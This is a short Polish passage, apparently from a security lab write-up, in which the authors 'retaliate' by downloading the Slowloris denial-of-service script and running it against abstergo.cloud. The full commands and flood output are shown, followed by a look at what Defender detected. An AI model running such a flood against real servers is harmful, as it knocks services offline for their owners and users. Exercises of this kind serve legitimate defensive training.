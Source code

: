 :(

W ramach odwetu postanawiamy zaatakować inne maszyny.

```
useradm@ubuVM:~slowloris$ wget https://raw.githubusercontent.com/GHubgenius/slowloris.pl/master/slowloris.pl
useradm@ubuVM:~/slowloris$ sudo apt install perl libwww-mechanize-shell-perl libwww-mechanize-perl
```

```
useradm@ubuVM:~/slowloris$ perl slowloris.pl -dns abstergo.cloud
Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client by Laera Loris
Defaulting to port 80.
Defaulting to a 5 second tcp connection timeout.
Defaulting to a 100 second re-try timeout.
Defaulting to 1000 connections.
Multithreading enabled.
Connecting to abstergo.cloud:80 every 100 seconds with 1000 sockets:
		Building sockets.
		Building sockets.
		Sending data.
		Sending data.
Current stats:	Slowloris has now sent 3926 packets successfully.
This thread now sleeping for 100 seconds...

Current stats:	Slowloris has now sent 3938 packets successfully.
This thread now sleeping for 100 seconds...
...
```

Patrzymy co ciekawego wykrył Defender.

![img/04.png](img/04.png)